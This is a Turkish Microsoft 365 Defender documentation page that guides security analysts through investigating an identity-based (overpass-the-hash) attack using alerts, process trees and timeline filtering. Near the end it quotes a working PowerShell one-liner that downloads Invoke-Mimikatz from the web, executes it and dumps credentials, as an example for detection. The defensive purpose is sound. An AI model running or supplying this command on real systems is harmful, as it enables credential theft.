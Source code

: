 ```yaml
---
title: Kimlik tabanlı saldırı örneği
description: Kimlik tabanlı bir saldırının örnek analizinde adım adım ilerleyin.
keywords: olaylar, uyarılar, araştırma, bağıntı, saldırı, makineler, cihazlar, kullanıcılar, kimlikler, kimlik, posta kutusu, e-posta, 365, Microsoft, m365, olay yanıtı, siber saldırı
search.product: eADQiWindows 10XVcnh
ms.service: microsoft-365-security
ms.subservice: m365d
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
f1.keywords:
- NOCSH
ms.author: dansimp
author: dansimp
ms.localizationpriority: medium
manager: dansimp
audience: ITPro
ms.collection:
- M365-security-compliance
- m365solution-firstincident
- highpri
ms.topic: conceptual
search.appverid:
- MOE150
- MET150
ms.openlocfilehash: c96e9bef376ad7f36386e8aed78b97cd01332805
ms.sourcegitcommit: 10e6abe740e27000e223378eb17d657a47555fa8
ms.translationtype: MT
ms.contentlocale: tr-TR
ms.lasthandoff: 08/31/2022
ms.locfileid: "67480306"
---
```

# <a name="example-of-an-identity-based-attack"></a>Kimlik tabanlı saldırı örneği

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]

**Şunlar için geçerlidir:**
- Microsoft 365 Defender

Kimlik için Microsoft Defender, kuruluşunuzdaki kimlikleri tehlikeye atmaya yönelik kötü amaçlı girişimleri algılamaya yardımcı olabilir. Kimlik için Defender Microsoft 365 Defender ile tümleştirildiğinden güvenlik analistleri, Şüpheli Netlogon ayrıcalık yükseltme girişimleri gibi Kimlik için Defender'dan gelen tehditleri görebilir.

## <a name="analyzing-the-attack-in-microsoft-defender-for-identity"></a>Kimlik için Microsoft Defender'de saldırıyı analiz etme

Microsoft 365 Defender analistlerin uyarıları olaylar sayfasının **Uyarılar** sekmesindeki algılama kaynağına göre filtrelemesine olanak tanır. Aşağıdaki örnekte algılama kaynağı **Kimlik için Defender** olarak filtrelenmiştir. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png" alt-text="Kimlik için Microsoft Defender'de algılama kaynağını filtreleme" lightbox="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png":::

**Şüpheli karma saldırı üst geçidi** uyarısı seçildiğinde, Microsoft Defender for Cloud Apps daha ayrıntılı bilgiler görüntüleyen bir sayfaya gider. Saldırının açıklamasını ve düzeltme önerilerini okumak için **Bu uyarı türü hakkında daha fazla bilgi edinin'i** seçerek her zaman bir uyarı veya [saldırı](/defender-for-identity/lateral-movement-alerts#suspected-overpass-the-hash-attack-kerberos-external-id-2002) hakkında daha fazla bilgi edinebilirsiniz.
 
:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-alert-example.png" alt-text="Şüpheli bir karmayı aşarak saldırı uyarısı" lightbox="../../media/first-incident-path-identity/first-incident-identity-alert-example.png"::: 

## <a name="investigating-the-same-attack-in-microsoft-defender-for-endpoint"></a>Uç Nokta için Microsoft Defender'de aynı saldırıyı araştırma

Alternatif olarak, bir analist uç nokta üzerindeki etkinlik hakkında daha fazla bilgi edinmek için Uç Nokta için Defender'ı kullanabilir. Olay kuyruğundan olayı seçin ve ardından **Uyarılar** sekmesini seçin. Buradan, algılama kaynağını da tanımlayabilirler. EDR olarak etiketlenmiş bir algılama kaynağı, Uç Nokta için Defender olan Uç Nokta Algılama ve Yanıt anlamına gelir. Analist buradan EDR tarafından algılanan bir uyarıyı seçer.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png" alt-text="Uç Nokta için Microsoft Defender portalında Uç Nokta Algılama ve Yanıt" lightbox="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png":::

Uyarı sayfasında etkilenen cihaz adı, kullanıcı adı, otomatik araştırmanın durumu ve uyarı ayrıntıları gibi ilgili çeşitli bilgiler görüntülenir. Uyarı hikayesi, işlem ağacının görsel bir gösterimini gösterir. İşlem ağacı, uyarıyla ilgili üst ve alt işlemlerin hiyerarşik bir gösterimidir.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png" alt-text="Uç Nokta için Microsoft Defender bir uyarı işlemi ağacı" lightbox="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png"::: 

Her işlem daha fazla ayrıntı görüntülemek için genişletilebilir. Analistin görebileceği ayrıntılar, kötü amaçlı bir betiğin parçası olarak girilen gerçek komutlar, giden bağlantı IP adresleri ve diğer yararlı bilgilerdir.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-process-details.png" alt-text="Uç Nokta için Microsoft Defender portalındaki işlem ayrıntıları" lightbox="../../media/first-incident-path-identity/first-incident-identity-process-details.png":::
 
**Zaman çizelgesinde görüntüle'yi** seçerek analist, güvenliğin tam zamanını belirlemek için daha da detaya gidebilir. 

Uç Nokta için Microsoft Defender birçok kötü amaçlı dosyayı ve betikleri algılayabilir. Ancak, giden bağlantılar, PowerShell ve komut satırı etkinliği için birçok meşru kullanım nedeniyle, bazı etkinlikler kötü amaçlı bir dosya veya etkinlik oluşturana kadar zararsız olarak kabul edilir. Bu nedenle, zaman çizelgesini kullanmak analistlerin uyarıyı çevresindeki etkinlikle bağlam içine alarak aksi takdirde ortak dosya sistemi ve kullanıcı etkinliği tarafından gizlenen saldırının özgün kaynağını veya zamanını belirlemesine yardımcı olur. 

Zaman çizelgesini kullanmak için bir analist uyarı algılama sırasında (kırmızı) başlar ve kötü amaçlı etkinliğe yol açan özgün etkinliğin gerçekte ne zaman başladığını belirlemek için geriye doğru aşağı kaydırır. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-start-time.png" alt-text="Uyarı algılama için analistin başlangıç zamanı" lightbox="../../media/first-incident-path-identity/first-incident-identity-start-time.png"::: 

Windows Update bağlantıları, Windows Güvenilen Yazılım etkinleştirme trafiği, Microsoft sitelerine yönelik diğer yaygın bağlantılar, üçüncü taraf İnternet etkinliği, Microsoft Endpoint Configuration Manager etkinliği ve diğer zararsız etkinlikler gibi ortak etkinlikleri şüpheli etkinliklerden anlamak ve ayırt etmek önemlidir. Ayırt etmenin bir yolu zaman çizelgesi filtrelerini kullanmaktır. Analistin görüntülemek istemediği bir şeyi filtrelerken belirli etkinlikleri vurgulayan birçok filtre vardır. 

Aşağıdaki görüntüde analist yalnızca ağ ve işlem olaylarını görüntülemek için filtre uygulamıştı. Bu filtre ölçütü analistin, Not Defteri'nin işlem ağacında da gördüğümüz bir IP adresiyle bağlantı kurduğu olayı çevreleyen ağ bağlantılarını ve işlemlerini görmesine olanak tanır. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-notepad.png" alt-text="Kötü amaçlı giden bağlantı oluşturmak için Not Defteri nasıl kullanıldı?" lightbox="../../media/first-incident-path-identity/first-incident-identity-notepad.png"::: 

Bu özel olayda, kötü amaçlı bir giden bağlantı oluşturmak için Not Defteri kullanılmıştır. Ancak saldırganlar genellikle iexplorer.exe kullanarak kötü amaçlı yük indirmek için bağlantılar kurar çünkü normalde iexplorer.exe işlemler normal web tarayıcısı etkinliği olarak kabul edilir.

Zaman çizelgesinde aranacak başka bir öğe de PowerShell'in giden bağlantılar için kullanması olabilir. Analist, kötü amaçlı bir dosyayı barındıran bir web sitesine giden bağlantı gibi `IEX (New-Object Net.Webclient)` komutlarla başarılı PowerShell bağlantıları arar. 

Aşağıdaki örnekte, Bir web sitesinden Mimikatz'ı indirmek ve yürütmek için PowerShell kullanılmıştır:

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```
Analist, yalnızca PowerShell ile oluşturulan olayları görüntülemek için arama çubuğuna anahtar sözcüğü yazarak anahtar sözcükleri hızla arayabilir. 

## <a name="next-step"></a>Sonraki adım

[Kimlik avı](first-incident-path-phishing.md) araştırma yoluna bakın.

## <a name="see-also"></a>Ayrıca bkz.

- [Olaylara genel bakış](incidents-overview.md)
- [Olayları yönetin](manage-incidents.md)
- [Olayları araştırın](investigate-incidents.md)
